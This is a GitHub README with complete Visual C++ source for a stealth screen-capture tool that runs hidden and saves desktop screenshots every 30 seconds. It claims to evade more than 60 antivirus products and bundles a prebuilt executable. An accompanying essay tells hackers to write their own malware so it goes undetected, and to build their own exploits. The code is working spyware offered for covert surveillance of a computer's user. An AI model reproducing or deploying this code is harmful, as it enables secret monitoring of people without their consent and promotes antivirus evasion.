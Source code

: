 [![NPM Version][npm-image]][npm-url]
[![Build Status][travis-image]][travis-url]
[![Downloads Stats][npm-downloads]][npm-url]

### Exploit Development : Hidden Screen Catpure C++ (Stealth Mode)

It is primary designed to be hidden and monitoring the computer activity. Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

### Why Programming Is Important for Hackers to Know.

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

* <b>Building your own malware. </b>
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

* <b>Knowing how programs work will help you exploit them. </b>
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

* <b>Hacking tools are mostly open source. </b>
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

* <b>Making your own exploits. </b>
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

i choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.

### Prerequisites

1. Microsoft Windows System
2. Visual Studio 2012

### Screenshot.zip (Files Included in Repo)

Contain Executable Version of Program. It run in Stealth Mode and Capture the Screenshot after 60 seconds of interval. Imaege name is based on Current System Time.

### Source Code

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

//char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;  // rectangle  Object

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);  //create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);  //copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;   //get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());  //sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder);   //save in jpeg format
	SelectObject(dc2,holdbitmap);  //Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;  // create object of system time 
	GetLocalTime(&st);
	int year = st.wYear;  // extract year from system time
	int month = st.wMonth; // extract month from system time
	int day = st.wDay; // extract year day system time
	int hour = st.wHour; // extract year hours system time
	int mintue = st.wMinute; // extract mintue from system time

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;  // create complete string of date and time
	
	screenshot(startDate);   // send string to screenshot function
	Sleep(1000*30*1);  // delay execution of function 60 Seconds
	}
}

```
## Version

1.7

## Authors

Ajay Randhawa
